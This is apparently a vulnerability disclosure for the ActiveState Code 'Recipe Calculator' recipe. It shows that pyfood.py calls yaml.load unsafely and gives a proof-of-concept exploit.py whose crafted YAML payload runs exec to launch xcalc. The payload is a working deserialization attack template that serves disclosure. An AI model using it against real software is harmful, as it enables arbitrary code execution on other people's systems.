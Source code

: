 # Description
Welcome to the ActiveState Code recipes repo! We have migrated all of the great content from code.activestate.com to its new forever-home here at GitHub. This makes it easier for everyone to submit new recipes, contribute code and integrate all the great information into their own projects.
* **Vulnerability discription**
unsafe loading of data by the yaml.load function leading to Arbitrary code execution.
# Proof of Concept
* Vulnerable code part 
```python
def main(yml_food, yml_recipe):
    food = yaml.load(open(yml_food).read())
    recipe = yaml.load(open(yml_recipe).read())
    #https://github.com/ActiveState/code/blob/master/recipes/Python/93379_Recipe_Calculator/pyfood.py#L18
    #https://github.com/ActiveState/code/blob/master/recipes/Python/93379_Recipe_Calculator/pyfood.py#L17
```
1. run exploit.py
```python
# exploit.py
# this exploit is for simple recipe calculator in ActiveState/code repository
import os
os.system('git clone https://github.com/ActiveState/code.git')
os.chdir('code/recipes/Python/93379_Recipe_Calculator/')
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
os.system('rm exp.yml')
open('exp.yml','w+').write(exploit)
os.system('python pyfood.py --yml-food=exp.yml --yml-recipe=exp.yml')
os.system('rm exp.yml')
```

![]()
